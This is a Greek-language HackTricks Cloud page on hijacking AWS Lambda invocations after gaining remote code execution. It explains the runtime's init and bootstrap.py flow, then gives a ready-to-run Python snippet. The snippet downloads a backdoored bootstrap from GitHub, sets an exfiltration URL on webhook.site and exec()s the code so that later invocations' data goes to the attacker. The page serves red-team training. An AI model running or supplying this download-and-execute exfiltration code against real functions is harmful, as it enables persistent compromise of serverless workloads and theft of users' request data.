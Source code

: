 # AWS - Steal Lambda Requests

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του container που **στέλνει** **invocations** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στην πόρτα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
* **`/2018-06-01/runtime/invocation/next`** – λήψη του επόμενου invocation event
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστροφή της απάντησης του handler για το invoke
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστροφή ενός σφάλματος εκτέλεσης
3. Το **bootstrap.py** έχει έναν βρόχο που λαμβάνει invocations από τη διαδικασία init και καλεί τον κώδικα των χρηστών για να τα χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στη διαδικασία init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως module, οπότε οποιαδήποτε εκτέλεση κώδικα από τον κώδικα του χρήστη συμβαίνει πραγματικά σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα των χρηστών να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **μιλάει με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτό είναι ένα απλό έργο καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

* **Να στείλει ένα ψεύτικο αποτέλεσμα του τρέχοντος invocation στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερα invocations.
* Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
* Το invoke-id μπορεί να ληφθεί από το stack της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτείνεται εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτείνεται εδώ](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Εκτέλεση ενός κακόβουλου **`boostrap.py`** που θα χειριστεί τα επόμενα invocations
* Για λόγους stealthiness, είναι δυνατό να στείλετε τις παραμέτρους των invocations της lambda σε έναν C2 που ελέγχεται από τον επιτιθέμενο και στη συνέχεια να χειριστείτε τα αιτήματα όπως συνήθως.
* Για αυτή την επίθεση, αρκεί να πάρετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από το τρέχον invocation της lambda.

### Βήματα Επίθεσης

1. Βρείτε μια ευπάθεια **RCE**.
2. Δημιουργήστε ένα **κακόβουλο** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Εκτελέστε** το κακόβουλο bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες τρέχοντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες ελέγξτε [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Αναφορές

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
